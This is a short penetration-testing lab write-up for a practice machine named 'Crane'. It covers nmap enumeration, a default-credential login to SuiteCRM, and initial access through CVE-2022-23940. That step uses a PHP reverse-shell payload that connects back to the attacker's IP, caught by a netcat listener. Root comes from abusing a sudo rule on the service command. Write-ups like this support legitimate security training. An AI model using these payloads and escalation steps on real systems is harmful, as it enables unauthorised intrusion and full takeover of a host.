

# Crane 
------------

 
## Enumeration

### nmap

```
nmap -sCV -Pn -A -T4 192.168.227.146 -o nmapscan.txt
```



* http://192.168.227.146 shows login page to SuiteCRM console.
* Can login with default admin:admin credentials.
* SuiteCRM version is 7.12.3 .

### Initial Access

* CVE-2022-23940 - Authenticated Remote Code Execution through Scheduled Reports in SuiteCRM (<= 7.12.4) and SuiteCRM-Core (<= 8.0.3).

* https://github.com/manuelz120/CVE-2022-23940

```
┌──(kali㉿kali)-[~/…/Offsec/Lab-Notes/crane/CVE-2022-23940]
└─$ # Spawning a PHP Reverse shell to attacker-host on port 4444
./exploit.py -u admin -p admin -h http://192.168.227.146 --payload "php -r '\$sock=fsockopen(\"192.168.45.174\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```
* Got a reverse connection at 4444

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/crane]
└─$ nc -nvlp 4444                                       
listening on [any] 4444 ...
connect to [192.168.45.174] from (UNKNOWN) [192.168.227.146] 59822
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
```

### Priv Esc

```
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
$ sudo service ../../bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```
